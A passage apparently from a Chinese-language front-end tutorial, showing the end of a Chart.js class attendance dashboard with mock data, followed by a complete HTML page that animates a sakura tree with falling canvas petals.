                casualLeave: [5, 8, 3, 2, 4, 7, 10, 5, 1, 8, 6, 9],
                otherLeave: [2, 3, 1, 0, 1, 3, 5, 2, 0, 4, 3, 3]
            };
        } else if (granularity === '月') {
            // 月度数据：显示当月每天或每周
            const month = selectedTime.split('-')[1];
            return {
                className: '百香果班级',
                totalPeople: 85,
                expectedAttendance: 150,
                labels: ['第1周', '第2周', '第3周', '第4周'],
                attendanceRate: [100, 98, 99, 97],
                actualData: [12, 15, 10, 8],
                sickLeave: [5, 6, 4, 3],
                casualLeave: [3, 4, 2, 2],
                otherLeave: [1, 2, 1, 1]
            };
        } else {
            // 日数据：显示小时或班次
            return {
                className: '百香果班级',
                totalPeople: 85,
                expectedAttendance: 85,
                labels: ['上午', '下午'],
                attendanceRate: [100, 98],
                actualData: [2, 3],
                sickLeave: [1, 2],
                casualLeave: [1, 1],
                otherLeave: [0, 0]
            };
        }
    }

    /**
     * 更新标题
     */
    function updateTitle(selectedTime, granularity) {
        const yearTitle = document.getElementById('yearTitle');
        
        if (granularity === '年') {
            const year = selectedTime.split('-')[0];
            yearTitle.textContent = year + '年';
        } else if (granularity === '月') {
            const parts = selectedTime.split('-');
            yearTitle.textContent = `${parts[0]}年${parseInt(parts[1])}月`;
        } else if (granularity === '日') {
            const parts = selectedTime.split('-');
            yearTitle.textContent = `${parts[0]}年${parseInt(parts[1])}月${parseInt(parts[2])}日`;
        }
    }

    /**
     * 更新副标题
     */
    function updateSubtitle(data) {
        const subtitle = document.getElementById('subtitleText');
        subtitle.textContent = `${data.className}（${data.totalPeople}人，应出勤人次数${data.expectedAttendance}人次）`;
    }

    /**
     * 渲染图表
     */
    function renderChart(data) {
        // 如果图表已存在，先销毁
        if (chart) {
            chart.destroy();
        }

        const ctx = document.getElementById('attendanceChart').getContext('2d');

        chart = new Chart(ctx, {
            type: 'bar',
            data: {
                labels: data.labels,
                datasets: [
                    {
                        type: 'line',
                        label: '出勤率',
                        data: data.attendanceRate,
                        borderColor: '#FF6B6B',
                        backgroundColor: 'transparent',
                        borderWidth: 2.5,
                        pointRadius: 5,
                        pointBackgroundColor: '#FF6B6B',
                        pointBorderColor: '#FF6B6B',
                        pointBorderWidth: 2,
                        yAxisID: 'y1',
                        order: 0,
                        tension: 0
                    },
                    {
                        label: '实值',
                        data: data.actualData,
                        backgroundColor: '#4A9EFF',
                        barPercentage: 0.7,
                        categoryPercentage: 0.8,
                        yAxisID: 'y'
                    },
                    {
                        label: '病假',
                        data: data.sickLeave,
                        backgroundColor: '#52C7A5',
                        barPercentage: 0.7,
                        categoryPercentage: 0.8,
                        yAxisID: 'y'
                    },
                    {
                        label: '事假',
                        data: data.casualLeave,
                        backgroundColor: '#FFB84D',
                        barPercentage: 0.7,
                        categoryPercentage: 0.8,
                        yAxisID: 'y'
                    },
                    {
                        label: '其他',
                        data: data.otherLeave,
                        backgroundColor: '#A8A8A8',
                        barPercentage: 0.7,
                        categoryPercentage: 0.8,
                        yAxisID: 'y'
                    }
                ]
            },
            options: {
                responsive: true,
                maintainAspectRatio: false,
                interaction: {
                    mode: 'index',
                    intersect: false
                },
                plugins: {
                    legend: {
                        display: true,
                        position: 'bottom',
                        labels: {
                            usePointStyle: true,
                            pointStyle: 'circle',
                            padding: 20,
                            font: {
                                size: 13,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#666',
                            boxWidth: 8,
                            boxHeight: 8
                        }
                    },
                    tooltip: {
                        backgroundColor: 'rgba(0, 0, 0, 0.75)',
                        padding: 10,
                        titleFont: {
                            size: 13
                        },
                        bodyFont: {
                            size: 12
                        },
                        cornerRadius: 4
                    }
                },
                scales: {
                    x: {
                        grid: {
                            display: false,
                            drawBorder: false
                        },
                        ticks: {
                            font: {
                                size: 13,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#666',
                            padding: 8
                        }
                    },
                    y: {
                        type: 'linear',
                        position: 'right',
                        beginAtZero: true,
                        max: 50,
                        title: {
                            display: true,
                            text: '请假人次数（人次）',
                            font: {
                                size: 12,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#999',
                            padding: 10
                        },
                        ticks: {
                            stepSize: 10,
                            callback: function(value) {
                                return value + ' 人次';
                            },
                            font: {
                                size: 11,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#999',
                            padding: 8
                        },
                        grid: {
                            color: '#E8E8E8',
                            drawBorder: false,
                            lineWidth: 1
                        }
                    },
                    y1: {
                        type: 'linear',
                        position: 'left',
                        beginAtZero: true,
                        max: 100,
                        title: {
                            display: true,
                            text: '出勤率（%）',
                            font: {
                                size: 12,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#999',
                            padding: 10
                        },
                        ticks: {
                            stepSize: 20,
                            callback: function(value) {
                                return value + ' %';
                            },
                            font: {
                                size: 11,
                                family: '-apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif'
                            },
                            color: '#999',
                            padding: 8
                        },
                        grid: {
                            display: false
                        }
                    }
                }
            }
        });

        // 应用响应式尺寸
        updateChartSizes();
    }

    /**
     * 获取响应式尺寸配置
     */
    function getResponsiveSizes() {
        const width = window.innerWidth;
        const height = window.innerHeight;
        const base = Math.min(width, height);
        
        return {
            legendFont: Math.max(10, base * 0.013),
            legendPadding: Math.max(12, base * 0.015),
            legendBox: Math.max(6, base * 0.008),
            tooltipFont: Math.max(10, base * 0.012),
            axisFont: Math.max(9, base * 0.011),
            titleFont: Math.max(10, base * 0.012),
            pointRadius: Math.max(3, base * 0.005),
            lineWidth: Math.max(1.5, base * 0.0025),
            padding: Math.max(6, base * 0.008)
        };
    }

    /**
     * 更新图表尺寸
     */
    function updateChartSizes() {
        if (!chart) return;
        
        const sizes = getResponsiveSizes();
        
        chart.options.plugins.legend.labels.font.size = sizes.legendFont;
        chart.options.plugins.legend.labels.padding = sizes.legendPadding;
        chart.options.plugins.legend.labels.boxWidth = sizes.legendBox;
        chart.options.plugins.legend.labels.boxHeight = sizes.legendBox;
        
        chart.options.plugins.tooltip.titleFont.size = sizes.tooltipFont;
        chart.options.plugins.tooltip.bodyFont.size = sizes.tooltipFont - 1;
        chart.options.plugins.tooltip.padding = sizes.padding + 2;
        
        chart.options.scales.x.ticks.font.size = sizes.axisFont;
        chart.options.scales.x.ticks.padding = sizes.padding;
        
        chart.options.scales.y.title.font.size = sizes.titleFont;
        chart.options.scales.y.ticks.font.size = sizes.axisFont;
        chart.options.scales.y.ticks.padding = sizes.padding;
        
        chart.options.scales.y1.title.font.size = sizes.titleFont;
        chart.options.scales.y1.ticks.font.size = sizes.axisFont;
        chart.options.scales.y1.ticks.padding = sizes.padding;
        
        chart.data.datasets[0].pointRadius = sizes.pointRadius;
        chart.data.datasets[0].borderWidth = sizes.lineWidth;
        chart.data.datasets[0].pointBorderWidth = sizes.lineWidth * 0.8;
        
        chart.update('none');
    }

    // 监听窗口大小变化
    window.addEventListener('resize', () => {
        updateChartSizes();
    });
</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

    /* 内容区域样式 */
    .chart-wrapper {
        width: 100%;
        height: 100%;
        display: flex;
        flex-direction: column;
        background: #fff;
        border-radius: 1vw;
        padding: 2vw;
    }

    .header {
        text-align: left;
        margin-bottom: 2vh;
        padding-left: 1vw;
    }

    .year {
        font-size: 2vw;
        font-weight: 600;
        color: #333;
        margin-bottom: 0.8vh;
        letter-spacing: 0.05em;
    }

    .subtitle {
        font-size: 1.2vw;
        color: #666;
        font-weight: 400;
    }

    .chart-container {
        flex: 1;
        width: 100%;
        position: relative;
        min-height: 0;
        padding: 1vw;
    }

    #attendanceChart {
        width: 100% !important;
        height: 100% !important;
    }
</style>
</html>
```

### 测试插件

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
  <title>樱花树 · Sakura Tree</title>
  <style>
    :root{
      --bg:#0b1020;
      --ground:#0e1630;
      --tree:#3d291a;
      --petal1:#ffd6e0;
      --petal2:#ffb7d0;
      --blossom:#ffe6f0;
    }

    html,body{
      height:100%;
      margin:0;
      background: linear-gradient(180deg,var(--bg), #0c1220 50%, #07101a 100%);
      color:#fff;
      font-family: "Segoe UI", Roboto, "Helvetica Neue", Arial;
      -webkit-font-smoothing:antialiased;
      -moz-osx-font-smoothing:grayscale;
      overflow:hidden;
    }

    .wrap{
      display:flex;
      flex-direction:column;
      height:100vh;
      align-items:center;
      justify-content:space-between;
      padding:20px;
      box-sizing:border-box;
    }

    header{
      text-align:center;
      margin-top:6px;
    }
    header h1{
      margin:0;
      font-size:20px;
      letter-spacing:1px;
      opacity:0.95;
    }
    header p{
      margin:6px 0 0 0;
      font-size:13px;
      opacity:0.7;
    }

    .scene{
      position:relative;
      width:100%;
      max-width:1000px;
      height:calc(100vh - 140px);
      display:flex;
      align-items:flex-end;
      justify-content:center;
      pointer-events:none;
    }

    /* Controls */
    .controls{
      position:fixed;
      right:18px;
      top:18px;
      background: rgba(255,255,255,0.06);
      border:1px solid rgba(255,255,255,0.06);
      padding:8px;
      border-radius:10px;
      backdrop-filter: blur(6px);
      pointer-events:auto;
    }
    .controls button{
      display:inline-block;
      background:transparent;
      color:#fff;
      border:1px solid rgba(255,255,255,0.12);
      padding:6px 10px;
      margin:4px;
      border-radius:8px;
      cursor:pointer;
      font-size:13px;
    }
    .controls button.active{
      background: linear-gradient(90deg, rgba(255,182,193,0.18), rgba(255,192,203,0.08));
      border-color: rgba(255,182,193,0.3);
    }

    /* Ground */
    .ground{
      position:absolute;
      bottom:0;
      width:100%;
      height:110px;
      background: linear-gradient(180deg, rgba(10,14,22,0.0), var(--ground));
      box-shadow: inset 0 6px 40px rgba(0,0,0,0.5);
      pointer-events:none;
    }

    /* simple fade-in for page */
    .scene svg, canvas { opacity:0; transform: translateY(10px) scale(0.995); transition: all 700ms cubic-bezier(.2,.9,.2,1); }
    .scene.ready svg, .scene.ready canvas { opacity:1; transform:none; }

    /* subtle sway for tree group */
    @keyframes sway {
      0% { transform: rotate(-1.2deg); }
      50% { transform: rotate(1.4deg); }
      100% { transform: rotate(-1.2deg); }
    }
    .tree-sway {
      transform-origin: 50% 100%;
      animation: sway 6s ease-in-out infinite;
    }

    /* blossom pulse */
    @keyframes blossomPulse {
      0% { transform: scale(0.9); opacity:0.9; }
      50% { transform: scale(1.12); opacity:1; }
      100% { transform: scale(0.9); opacity:0.9; }
    }
    .blossom {
      transform-origin:center;
      animation: blossomPulse 3.2s ease-in-out infinite;
    }

    footer{
      position:fixed;
      left:18px;
      bottom:18px;
      color:rgba(255,255,255,0.6);
      font-size:13px;
      pointer-events:none;
    }

    /* Responsive tweaks */
    @media (max-width:520px){
      header h1 { font-size:16px; }
      .controls { right:10px; top:10px; padding:6px; }
      .controls button{ padding:6px 8px; font-size:12px; }
    }
  </style>
</head>
<body>
  <div class="wrap">
    <header>
      <h1>樱花树 · Sakura Tree</h1>
      <p>HTML + SVG + Canvas：轻柔摇曳与飘落樱花瓣 ✨</p>
    </header>

    <div class="scene" id="scene">
      <!-- SVG 树与静态花 -->
      <svg id="sakuraSVG" viewBox="0 0 800 600" preserveAspectRatio="xMidYMax meet" style="width:100%; height:100%;">
        <!-- 背景淡色雾 -->
        <defs>
          <radialGradient id="skyGlow" cx="50%" cy="30%" r="60%">
            <stop offset="0%" stop-color="#fff7f9" stop-opacity="0.06"/>
            <stop offset="60%" stop-color="#ffdff0" stop-opacity="0.02"/>
            <stop offset="100%" stop-color="#000000" stop-opacity="0"/>
          </radialGradient>
          <filter id="soft" x="-50%" y="-50%" width="200%" height="200%">
            <feGaussianBlur stdDeviation="2" result="b"/>
            <feBlend in="SourceGraphic" in2="b"/>
          </filter>
        </defs>

        <rect x="0" y="0" width="800" height="600" fill="url(#skyGlow)"/>

        <!-- 树干与主枝（使用 path 绘制） -->
        <g id="tree" class="tree-sway" transform="translate(410, 560) scale(1,-1)">
          <!-- 主干 -->
          <path d="M10 0 C 40 0, 60 40, 60 80 C 60 140, 55 190, 40 240 C 25 290, 15 330, 0 350
                   C -10 360, -20 380, -32 395 C -40 405, -45 415, -48 430 C -52 455, -45 480, -30 490
                   C -10 507, 30 520, 80 520 C 120 520, 135 510, 150 500"
                fill="none" stroke="#3b281a" stroke-width="24" stroke-linecap="round" stroke-linejoin="round" />
          <!-- 细枝 -->
          <path d="M80 500 C 110 470, 170 440, 200 420" fill="none" stroke="#3b281a" stroke-width="12" stroke-linecap="round" />
          <path d="M40 520 C 20 480, -30 430, -90 390" fill="none" stroke="#3b281a" stroke-width="10" stroke-linecap="round" />
          <path d="M0 350 C -40 320, -100 290, -160 270" fill="none" stroke="#3b281a" stroke-width="8" stroke-linecap="round" />

          <!-- 一些较粗的枝条填色（制造更立体的效果） -->
          <path d="M10 0 C 40 0, 60 40, 60 80 C 60 140, 55 190, 40 240 C 25 290, 15 330, 0 350
                   C -10 360, -20 380, -32 395 C -40 405, -45 415, -48 430 C -52 455, -45 480, -30 490
                   C -10 507, 30 520, 80 520 C 120 520, 135 510, 150 500"
                fill="none" stroke="#2f1e15" stroke-width="6" stroke-linecap="round" stroke-linejoin="round" opacity="0.85" />

          <!-- 花簇（用 circle + path 模拟） -->
          <!-- cluster left -->
          <g transform="translate(-160,270) rotate(-12)">
            <circle class="blossom" cx="0" cy="0" r="10" fill="#fff0f6" opacity="0.95"/>
            <circle cx="8" cy="-6" r="7" fill="#ffd6e9" opacity="0.95"/>
            <circle cx="-9" cy="-4" r="6" fill="#ffcce0" opacity="0.95"/>
          </g>

          <!-- cluster center -->
          <g transform="translate(120,450) rotate(8)">
            <circle class="blossom" cx="0" cy="0" r="12" fill="#fff2f7" opacity="0.95"/>
            <circle cx="-10" cy="6" r="8" fill="#ffd6e9" opacity="0.95"/>
            <circle cx="12" cy="6" r="7" fill="#ffb7d8" opacity="0.95"/>
          </g>

          <!-- cluster right -->
          <g transform="translate(230,420) rotate(20)">
            <circle class="blossom" cx="0" cy="0" r="9" fill="#fff2f7" opacity="0.95"/>
            <circle cx="9" cy="5" r="7" fill="#ffd6e9" opacity="0.95"/>
            <circle cx="-7" cy="4" r="6" fill="#ffcce0" opacity="0.95"/>
          </g>

          <!-- more small blossoms sprinkled -->
          <g>
            <circle class="blossom" cx="190" cy="360" r="6" fill="#ffecf4" />
            <circle class="blossom" cx="150" cy="300" r="7" fill="#ffd6e9" />
            <circle class="blossom" cx="60"  cy="260" r="6" fill="#ffecf4" />
            <circle class="blossom" cx="-30" cy="310" r="6" fill="#ffb7d8" />
            <circle class="blossom" cx="-90" cy="350" r="5" fill="#ffd6e9" />
          </g>
        </g>
      </svg>

      <!-- Canvas 用于樱花瓣粒子飘落（位于 SVG 之上，以便独立控制） -->
      <canvas id="petalCanvas" style="position:absolute; left:0; top:0; width:100%; height:100%;"></canvas>

      <div class="ground"></div>
    </div>

    <div class="controls" id="controls">
      <button id="toggleFall" class="active">开 / 关 飘落</button>
      <button id="moreWind">微风 ↑</button>
      <button id="lessWind">微风 ↓</button>
    </div>

    <footer>Tip: 点击“开 / 关 飘落”可以暂停或恢复樱花飘落。</footer>
  </div>

  <script>
    // 等页面渲染动画完成后显示
    window.addEventListener('load', ()=> {
      document.getElementById('scene').classList.add('ready');
    });

    /* ------------- Petal particle system ------------- */
    (function(){
      const canvas = document.getElementById('petalCanvas');
      const ctx = canvas.getContext('2d', { alpha: true });
      let W = canvas.width = canvas.offsetWidth;
      let H = canvas.height = canvas.offsetHeight;
      let petals = [];
      let isFalling = true;
      let wind = 0.6; // 正为向右，负为向左

      // handle resizing
      function resize(){
        // maintain device pixel ratio
        const ratio = window.devicePixelRatio || 1;
        W = canvas.width = canvas.offsetWidth * ratio;
        H = canvas.height = canvas.offsetHeight * ratio;
        canvas.style.width = canvas.offsetWidth + 'px';
        canvas.style.height = canvas.offsetHeight + 'px';
        ctx.scale(ratio, ratio);
      }
      new ResizeObserver(resize).observe(canvas);
      resize();

      // random helpers
      const rand = (min, max) => Math.random() * (max - min) + min;
      const clamp = (v, a, b) => Math.max(a, Math.min(b, v));

      // create a petal
      function createPetal(overX) {
        const size = rand(8, 18);
        const x = overX !== undefined ? overX : rand(0, canvas.offsetWidth);
        const y = -10;
        const rot = rand(0, Math.PI * 2);
        const spin = rand(-0.02, 0.02);
        const sway = rand(0.5, 1.6);
        const fallSpeed = rand(20, 80); // px / second baseline
        const color = Math.random() > 0.5 ? '#ffd6e9' : '#ffb7d8';
        const opacity = rand(0.75, 1);
        return { x, y, size, rot, spin, sway, fallSpeed, color, opacity, life:0 };
      }

      // spawn loop
      function spawnBurst(n=1, x) {
        for (let i=0;i<n;i++){
          petals.push(createPetal(x));
        }
      }

      // initial petals
      for (let i=0;i<20;i++) spawnBurst(1);

      // draw a single petal (ellipse-like)
      function drawPetal(p, dt){
        ctx.save();
        ctx.globalAlpha = clamp(p.opacity * (1 - p.life / 100), 0, 1);
        ctx.translate(p.x, p.y);
        ctx.rotate(p.rot);
        // petal shape - slightly asymmetrical
        ctx.beginPath();
        ctx.moveTo(0, 0);
        ctx.bezierCurveTo(p.size*0.6, -p.size*0.2, p.size*0.9, p.size*0.6, 0, p.size);
        ctx.bezierCurveTo(-p.size*0.9, p.size*0.6, -p.size*0.6, -p.size*0.2, 0, 0);
        ctx.fillStyle = p.color;
        ctx.fill();
        // center dot for depth
        ctx.beginPath();
        ctx.arc(0, p.size*0.5, p.size*0.12, 0, Math.PI*2);
        ctx.fillStyle = 'rgba(255,200,230,0.6)';
        ctx.fill();
        ctx.restore();
      }

      // update and render
      let last = performance.now();
      function tick(now){
        const delta = (now - last) / 1000; // seconds
        last = now;
        ctx.clearRect(0,0, canvas.offsetWidth, canvas.offsetHeight);

        // maybe spawn new petals occasionally when falling is on
        if (isFalling && Math.random() < 0.6) {
          spawnBurst(Math.random() < 0.5 ? 1 : 0); // less bursty by default
        }

        // update
        for (let i = petals.length - 1; i >= 0; i--) {
          const p = petals[i];
          // horizontal sway (sinusoidal) + wind
          p.life += delta * 10;
          p.x += (Math.sin(p.life * p.sway) * 14 * delta) + wind * delta * 30;
          // gravity
          p.y += p.fallSpeed * delta + Math.abs(Math.cos(p.life*0.5)) * 6 * delta;
          // rotation
          p.rot += p.spin * (0.5 + Math.abs(wind) * 0.5);
          // fade when below ground
          if (p.y > canvas.offsetHeight + 40 || p.life > 220) {
            petals.splice(i,1);
            continue;
          }
          drawPetal(p, delta);
        }

        requestAnimationFrame(tick);
      }
      requestAnimationFrame(tick);

      // UI bindings
      const toggleBtn = document.getElementById('toggleFall');
      const moreWindBtn = document.getElementById('moreWind');
      const lessWindBtn = document.getElementById('lessWind');

      toggleBtn.addEventListener('click', ()=>{
          console.log('toggle');
        isFalling = !isFalling;
        toggleBtn.classList.toggle('active', isFalling);
        toggleBtn.textContent = isFalling ? '开 / 关 飘落' : '已暂停飘落';
      });
      moreWindBtn.addEventListener('click', ()=> { wind += 0.3; wind = clamp(wind, -2.5, 2.5); spawnBurst(8); });
      lessWindBtn.addEventListener('click', ()=> { wind -= 0.3; wind = clamp(wind, -2.5, 2.5); spawnBurst(8); });

      // add interactive spawn: click on SVG to emit petals from that point
      const svg = document.getElementById('sakuraSVG');
      svg.addEventListener('pointerdown', (e)=>{
        const rect = svg.getBoundingClientRect();
        const x = e.clientX - rect.left;
        spawnBurst(12, x);
      });

      // small ambient continuous spawn from branches
      setInterval(()=> {
        if (isFalling) spawnBurst(Math.random() < 0.6 ? 1 : 0);
      }, 420);

      // expose some debug controls if needed (optional)
      window.__sakura = {
        spawnBurst, petalsArr: petals, setWind: v=> wind = v
      };
    })();
  </script>
</body>
</html>
```

## 最终效果

